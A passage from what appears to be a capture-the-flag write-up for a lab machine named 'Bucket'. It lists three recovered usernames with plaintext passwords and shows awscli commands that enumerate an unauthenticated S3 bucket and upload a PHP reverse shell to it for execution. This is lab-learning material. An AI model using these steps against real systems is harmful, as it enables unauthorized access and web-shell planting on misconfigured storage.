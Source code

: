 <img src="./img/dbshellvalue.png"  width="650"/>

found three users:

>Mgmt:Management@#1@#
>Cloudadm:Welcome123!
>Sysadmin:n2vM-&lt\;_K_Q:.Aa2

For interact with `s3` bucket need to install [awscli](https://pypi.org/project/awscli/).

# User
Start enum the bucket 
>aws s3 ls s3://adserver --endpoint-url http://s3.bucket.htb --no-sign-request

and obtain
>/images
>/index.html

So i decid to upload a revshell
>aws s3 cp test.php s3://adserver  --endpoint-url http://s3.bucket.htb  --no-sign-request

and sync the bucket with the server

>aws s3  website s3://adserver --index-document index.html  --no-sign-request --endpoint-url http://s3.bucket.htb --no-sign-request
